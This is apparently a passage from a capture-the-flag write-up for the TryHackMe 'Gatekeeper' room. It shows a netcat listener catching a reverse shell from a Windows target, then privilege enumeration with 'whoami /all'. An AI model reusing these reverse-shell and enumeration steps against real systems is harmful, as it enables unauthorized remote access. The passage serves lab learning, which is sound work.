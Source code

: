 ```text
root@kali:/home/kali/thm/gatekeeper# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.8.165.116] from (UNKNOWN) [10.10.245.39] 49194
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\natbat\Desktop>
```

## Initial Access

Let's see what rights we have:

```text
C:\Users\natbat\Desktop> whoami /all

USER INFORMATION
----------------

User Name         SID                                          
================= =============================================
gatekeeper\natbat S-1-5-21-663372427-3699997616-3390412905-1003

GROUP INFORMATION
-----------------

Group Name                             Type             SID                                           Attributes                                        
====================================== ================ ============================================= ==================================================
Everyone                               Well-known group S-1-1-0                                       Mandatory group, Enabled by default, Enabled group
GATEKEEPER\HomeUsers                   Alias            S-1-5-21-663372427-3699997616-3390412905-1001 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                          Alias            S-1-5-32-545                                  Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE               Well-known group S-1-5-4                                       Mandatory group, Enabled by default, Enabled group
CONSOLE LOGON                          Well-known group S-1-2-1                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization         Well-known group S-1-5-15                                      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account             Well-known group S-1-5-113                                     Mandatory group, Enabled by default, Enabled group
LOCAL                                  Well-known group S-1-2-0                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication       Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level Label            S-1-16-8192                                   Mandatory group, Enabled by default, Enabled group

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State   
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled 
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```